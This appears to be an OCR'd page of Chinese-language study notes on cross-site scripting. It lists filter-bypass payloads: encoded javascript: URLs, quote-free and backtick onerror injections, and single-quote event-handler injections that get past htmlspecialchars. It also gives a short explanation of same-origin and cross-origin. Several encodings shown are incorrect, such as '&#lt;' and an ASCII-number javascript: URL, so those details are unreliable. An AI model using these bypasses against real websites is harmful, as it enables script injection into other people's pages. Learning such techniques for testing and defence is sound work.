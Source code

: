 **编码绕过**

```bash
& ——> &amp;
" ——> &quot;
' ——> &#039;
< ——> &#lt;
> ——> &#gt;

Unicode编码
r --> &#x0072 &#0114

url编码
<img src="javascript:%61%6C%65%72%74%28%22%78%73%73%22%29%3B;">

ASCII码
<img src="javascript:97,108,101,114,116,40,34,120,115,115,34,41,59">

base64编码
<img src="javascript:YWxlcnQoJ3hzcycpOw==">
```

**过滤双引号、单引号**

```html
如果是html标签中，我们可以不用引号。如果是在js中，我们可以用反引号代替单双引号
示例：
<img src="x" onerror=alert('xss');>
替换：
<img src="x" onerror=alert(`xss`);>
```

**htmlspecialchars绕过**

```javascript
没有对'进行实体编码，可以使用单引号构造payload
#' onclick='alert(/xss/)'
#' onmousemove='alert(/xss/)'

javascript:alert(123)
```





## XSS跨站-网络钓鱼



## 同源和跨域

跨域

```
http:// www . baidu.com : 80 /index.php
协议    子域名    主域名    端口  资源地址
当协议、主机（主域名、子域名）、端口中的任意一个不相同时，称为不同域。不同域之间请求数据的操作，称为跨域操作。
```
